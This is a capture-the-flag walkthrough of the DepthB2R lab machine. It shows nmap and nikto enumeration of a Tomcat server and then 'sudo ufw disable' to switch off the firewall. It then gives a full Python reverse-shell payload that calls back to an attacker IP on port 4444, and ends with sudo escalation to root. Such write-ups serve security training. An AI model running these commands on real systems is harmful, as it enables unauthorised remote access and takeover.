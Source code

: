 ```yaml
---
categories: [Proving Grounds Play]
tags: [PrivEsc]
---
```


Lets check the IP address →IP : 

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled.png)

```bash
IP : 10.0.2.44
```

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/DepthB2R]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.44
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 11:29 IST
Nmap scan report for 10.0.2.44
Host is up (0.00079s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: Apache Tomcat
MAC Address: 08:00:27:FC:6B:6D (Oracle VirtualBox virtual NIC)
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%201.png)

Now after directory traversal I got these files and directories →

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%202.png)

Now lets load the directory /manager/ ➡️

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%203.png)

Now while nikto scan I got a file > `test.jsp` →

```bash
Nikto.txt
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/DepthB2R]
└─$ nikto -h http://10.0.2.44:8080/ -o nikto.txt -C all
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.0.2.44
+ Target Hostname:    10.0.2.44
+ Target Port:        8080
+ Start Time:         2023-05-04 11:51:21 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS .
+ HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /: Appears to be a default Apache Tomcat install.
+ /manager/html: Default Tomcat Manager / Host Manager interface found.
+ /test.jsp: This might be interesting.
+ /manager/status: Default Tomcat Server Status interface found.
+ 26792 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2023-05-04 11:53:28 (GMT5.5) (127 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%204.png)

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%205.png)

Now lets see inside the home which user is there →

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%206.png)

> User : bill , So lets disable the firewall so that I can execute my reverse shell command through ssh.
> 

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%207.png)

command : `sudo ufw disable` to disable the firewall but I have to use ssh bill@localhost first so that it can be executed .

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%208.png)

Now lets start the listener port 4444 with nc and then execute the payload for reverse shell .

```bash
payload :
ssh bill@localhost python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

In response I got this ➡️

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%209.png)

Lets see how bill can lead us to root →

```bash
bill@b2r:~$ sudo -l
sudo -l
Matching Defaults entries for bill on b2r:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bill may run the following commands on b2r:
    (ALL : ALL) NOPASSWD: ALL
bill@b2r:~$
```

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%2010.png)

Now I am root →

```bash
root@b2r:/root# cat flag
cat flag
flag{WellThatWasEasy}
root@b2r:/root#
```